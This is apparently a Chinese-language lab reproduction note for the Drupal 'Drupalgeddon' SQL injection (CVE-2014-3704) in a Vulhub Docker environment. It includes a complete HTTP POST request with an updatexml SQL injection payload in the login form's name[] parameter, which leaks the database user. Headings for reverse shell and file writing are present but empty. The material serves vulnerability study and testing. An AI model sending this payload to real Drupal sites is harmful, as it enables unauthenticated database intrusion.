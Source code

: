 # Drupal < 7.32版本 _“Drupalgeddon” SQL注入漏洞(CVE-2014-3704)



| 说明     | 内容                                 |
| -------- | ------------------------------------ |
| 漏洞编号 | CVE-2014-3704                        |
| 漏洞名称 | Drupal    “Drupalgeddon” SQL注入漏洞 |
| 漏洞评级 |                                      |
| 影响范围 | Drupal 7.0~7.31版本                  |
| 漏洞描述 |                                      |
| 修复方案 |                                      |



### 1.1、漏洞描述

Drupal 是一款用量庞大的CMS，其`7.0~7.31版本`中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

### 1.2、漏洞等级

### 1.3、影响版本

Drupal  7.0~7.31版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/drupal/CVE-2014-3704

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到Drupal的安装页面，使用默认配置安装即可

![image-20230911203654972](./imgs/image-20230911203654972.png)

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`

![image-20230911203842279](./imgs/image-20230911203842279.png)

![image-20230911204348468](./imgs/image-20230911204348468.png)



#### 2、漏洞扫描

#### 3、漏洞验证

发送如下数据包：

```bash
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

![image-20230911204539269](./imgs/image-20230911204539269.png)

### 1.5、深度利用

#### 1、反弹Shell

#### 2、写入文件

### 1.6、修复建议